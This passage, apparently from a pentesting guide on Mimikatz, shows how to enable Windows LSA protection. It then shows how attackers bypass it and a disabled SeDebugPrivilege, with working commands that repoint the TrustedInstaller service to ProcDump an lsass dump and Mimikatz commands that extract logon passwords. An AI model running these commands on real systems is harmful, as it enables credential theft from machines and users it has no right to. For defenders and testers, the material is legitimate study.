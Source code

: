 Enabling LSA protection:

- 1.
    
    Open the Registry Editor (RegEdit.exe), and navigate to the registry key that is located at: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa and Set the value of the registry key to: “RunAsPPL”=dword:00000001.
    

- 2.
    
    Create a new GPO and browse to Computer Configuration, Preferences, Windows Settings. Right-click Registry, point to New, and then click Registry Item. The New Registry Properties dialog box appears. In the Hive list, click HKEY_LOCAL_MACHINE. In the Key Path list, browse to SYSTEM\CurrentControlSet\Control\Lsa. In the Value name box, type RunAsPPL. In the Value type box, click the REG_DWORD. In the Value data box, type 00000001.Click OK.
    

LSA Protection prevents non-protected processes from interacting with LSASS. Mimikatz can still bypass this with a driver (“!+”).

​[​

![Mimikatz-Driver-Remove-LSASS-Protection](https://adsecurity.org/wp-content/uploads/2015/09/Mimikatz-Driver-Remove-LSASS-Protection.jpg)

​](https://adsecurity.org/wp-content/uploads/2015/09/Mimikatz-Driver-Remove-LSASS-Protection.jpg)​

### Bypassing Disabled SeDebugPrivilege[](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#bypassing-disabled-sedebugprivilege)

By default, SeDebugPrivilege is granted to the Administrators group through the Local Security Policy. In an Active Directory environment, [it is possible to remove this privilege](https://medium.com/blue-team/preventing-mimikatz-attacks-ed283e7ebdd5) by setting Computer Configuration --> Policies --> Windows Settings --> Security Settings --> Local Policies --> User Rights Assignment --> Debug programs defined as an empty group. Even in offline AD-connected devices, this setting cannot be overwritten and Local Administrators will receive an error when attempting to dump memory or use Mimikatz.

However, the TrustedInstaller account will still have access to dump memory and [can be used to bypass this defense](https://www.pepperclipp.com/other-articles/dump-lsass-when-debug-privilege-is-disabled). By modifying the config for the TrustedInstaller service, the account can be run to use ProcDump and dump the memory for `lsass.exe`.

sc config TrustedInstaller binPath= "C:\Users\Public\procdump64.exe -accepteula -ma lsass.exe C:\Users\Public\lsass.dmp"

sc start TrustedInstaller

[​

This dump file can be exfiltrated to an attacker-controlled computer where the credentials can be extracted.

privilege::debug
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords

